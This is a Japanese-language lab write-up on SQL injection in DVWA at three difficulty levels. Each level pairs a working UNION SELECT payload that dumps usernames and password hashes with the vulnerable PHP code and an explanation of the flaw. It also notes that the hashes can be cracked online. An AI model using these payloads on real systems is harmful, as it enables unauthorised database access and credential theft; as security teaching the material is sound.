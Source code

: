 # SQL Injection

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
<details>
<summary>Table of Contents</summary>

- [Low Level](#low-level)
  - [実験結果](#%E5%AE%9F%E9%A8%93%E7%B5%90%E6%9E%9C)
  - [原因](#%E5%8E%9F%E5%9B%A0)
- [Medium Level](#medium-level)
  - [実験結果](#%E5%AE%9F%E9%A8%93%E7%B5%90%E6%9E%9C-1)
  - [原因](#%E5%8E%9F%E5%9B%A0-1)
- [High Level](#high-level)
  - [実験結果](#%E5%AE%9F%E9%A8%93%E7%B5%90%E6%9E%9C-2)
  - [原因](#%E5%8E%9F%E5%9B%A0-2)

</details>
<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Low Level

### 実験結果

以下を UserID に入力する。

```sql
' UNION SELECT user, password from users where '1' = '1
```

### 原因

該当するソースコードは以下になる。

```php
// /var/www/html/vulnerabilities/sqli/source/low.php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

これは `$id = $_REQUEST[ 'id' ];` で取得したユーザの入力値をそのままSQLクエリのシングルクォーテーション（`'`）で囲まれた領域に挿入していることが原因である。

つまり `' UNION SELECT user, password from users where '1' = '1` と挿入してしまうと、以下のSQLクエリが構築されてしまい、条件が必ず `TRUE` になってしまうことが原因である。

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT user, password from users where '1' = '1';
```

これで画面に表示されているハッシュ値を、[Hash Toolkit](https://hashtoolkit.com/decrypt-hash/?hash=5f4dcc3b5aa765d61d8327deb882cf99) などを使用して解読すればパスワードを盗み出すことが可能となる。

## Medium Level

### 実験結果

画面上の UserID に `1` を選択した状態にする。

そのうえでページの検証からソースコードを開き、以下のように改変する。

```html
<select>
  <option value="1 UNION SELECT user, password FROM users WHERE 1=1">
  <!-- other options ... -->
</select>
```

これで `Submit` ボタンを押してリクエストを送信すれば、USERに関する情報が全て取得できる。

### 原因

該当するソースコードは以下になる。

```php
// /var/www/html/vulnerabilities/sqli/source/medium.php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```

これはHTML上で `<select>` を使用してドロップボックス形式に入力を宣言したうえで、入力された値をエスケープ処理した後で、SQLクエリにそのまま挿入している。

つまりHTTPリクエストを送信する際のリクエストヘッダの内容を書き換えることができれば、SQLインジェクションを実行することができてしまう。

あとは Low レベルで行った手順を続けていけばいい。

## High Level

### 実験結果

入力欄に以下のSQLクエリを入力して送信すれば、

```sql
1' UNION SELECT user, password FROM users WHERE '1'='1'#
```

### 原因

該当するソースコードは以下になる。

```php
// /var/www/html/vulnerabilities/sqli/source/high.php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?>
```

先ほどと異なる点は、SQLクエリを送信するためにポップアップウィンドウを使用している点と、表示するレコードの数が `LIMIT 1` で1つだけに制限されている点である。

挿入されるSQLクエリの後ろにあるSQLは、コメントアウトすればいいだけである。

